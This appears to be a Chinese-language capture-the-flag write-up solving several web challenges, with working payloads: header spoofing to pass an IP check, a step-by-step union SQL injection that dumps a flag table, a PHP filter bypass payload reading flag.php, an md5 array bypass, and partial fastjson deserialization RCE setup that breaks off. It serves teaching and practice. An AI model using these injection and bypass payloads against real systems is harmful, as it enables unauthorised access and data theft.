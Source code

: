## 本地管理员

![image-20250613213425741](assets/image-20250613213425741.png)

![image-20250613213507835](assets/image-20250613213507835.png)

源码中有个base64的注释

![image-20250613214228719](assets/image-20250613214228719.png)

test123，试试账号admin密码test123

![image-20250613214318961](assets/image-20250613214318961.png)

![image-20250613214717198](assets/image-20250613214717198.png)

ip不能访问，添加X-Forwarded-For:127.0.0.1，获得flag

![image-20250613214754391](assets/image-20250613214754391.png)

>`X-Forwarded-For` 用于标识客户端（例如浏览器）的IP地址。在某些环境下，因为客户端通过了多个代理服务器来访问服务器，所以服务器不能直接获得客户端的真实IP地址，而只能获取到代理服务器的IP地址。
>
>X-Forwarded-For: <client>, <proxy1>, <proxy2>
>
>其中，*<client>* 是客户端的 IP 地址，*<proxy1>* 和 *<proxy2>* 分别是经过的每个代理服务器的 IP 地址。最左边的 IP 地址是原始客户端的 IP 地址，最右边的 IP 地址是最近的代理服务器的 IP 地址

## 成绩查询

![image-20250613215630656](assets/image-20250613215630656.png)

![image-20250613215711250](assets/image-20250613215711250.png)

输入1有回显，1‘回显异常，1’#回显正常，判断是sql字符型注入

order by判断列数，当```1' order by 5 # '   ```时回显异常，字段数为4

爆库```-1' union select 1,2,3,database()#```

![image-20250613221050390](assets/image-20250613221050390.png)



爆表```-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#```

![image-20250613221128682](assets/image-20250613221128682.png)

暴字段

```-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#```

![image-20250613221213306](assets/image-20250613221213306.png)

获得字段内容

```-1' union select 1,2,3,group_concat(skctf_flag) from fl4g#```

![image-20250613221250734](assets/image-20250613221250734.png)

## 犯人留下了信息

![image-20250613222950911](assets/image-20250613222950911.png)

两张图片

![image-20250613223023573](assets/image-20250613223023573.png)

仔细看着两张图片

![image-20250613223856906](assets/image-20250613223856906.png)

![image-20250613223900707](assets/image-20250613223900707.png)

两张图片有不同之处，好像是盲水印

```git clone https://github.com/linyacool/blind-watermark.git```下载项目

```python2 decode.py --original 1.png --image 2.png --result 3.png```

![image-20250613225013160](assets/image-20250613225013160.png)

## hate_php

![image-20250613231846132](assets/image-20250613231846132.png)

![image-20250613231934572](assets/image-20250613231934572.png)



过滤了字符：`f l a g . p h / ; " ' \` | [ ] _ =`

过滤了所有 PHP 内置函数名

为了绕过取两次反

将`~'highlight_file'`和`~'flag.php'`用url编码后再取反

```/?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)```

![image-20250613232450540](assets/image-20250613232450540.png)





## random

![image-20250614102123044](assets/image-20250614102123044.png)

![image-20250614102143533](assets/image-20250614102143533.png)

发送的数字通过get请求发送

![image-20250614102255852](assets/image-20250614102255852.png)

题目叫守株待兔。将num随便取个值，然后对请求进行不断重放得到flag

![image-20250614102526564](assets/image-20250614102526564.png)

## weakphp

![image-20250614102651768](assets/image-20250614102651768.png)



![image-20250614102722645](assets/image-20250614102722645.png)

对网址进行扫描发现存在git目录

使用githack进行还原

![image-20250614103209398](assets/image-20250614103209398.png)

```php
<?php
require_once "flag.php";
if (!isset($_GET['user']) && !isset($_GET['pass'])) {
    header("Location: index.php?user=1&pass=2");
}

$user = $_GET['user'];
$pass = $_GET['pass'];
if ((md5($user) == md5($pass)) and ($user != $pass)){
    echo $flag;
} else {
    echo "nonono!";
}
?>

```

需要user和pass不相等但是md5值相等

用数组绕过，user[]=1&pass[]=2

![image-20250614103357214](assets/image-20250614103357214.png)

## fastjson 1.2.24-rce

用了dnslog

![image-20250614003234425](assets/image-20250614003234425.png)



![image-20250614003513006](assets/image-20250614003513006.png)

javac编译得到TouchFile.class

启动一个http服务

```bash
python -m http.server 2266
```

![image-20250614004027937](assets/image-20250614004027937.png)

安装java1.8版本

下载编译 marshalsec然后一直报错






